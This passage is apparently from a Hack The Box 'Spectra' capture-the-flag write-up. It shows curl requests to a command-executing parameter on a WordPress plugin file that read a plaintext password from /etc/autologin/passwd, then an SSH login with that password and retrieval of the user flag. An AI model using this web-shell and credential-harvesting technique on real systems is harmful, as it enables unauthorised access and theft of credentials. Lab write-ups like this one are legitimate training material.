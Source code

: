 // It looks like a script that store a key(password), also there is mantioned directory '/etc/autologin', lets check it

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=ls+/etc/autologin
    passwd

// Indeed there passwd file, lets open him

    $ curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=cat+/etc/autologin/passwd
    SummerHereWeCome!!

// We have a passowrd ! , we can try now SSH to the machine

    $ssh katie@10.10.10.229
    Password: 
    katie@spectra ~ $ 

// It worked with user katie !

// And we got user flag !

    katie@spectra ~ $ cat user.txt 
    e89d2............................

// 





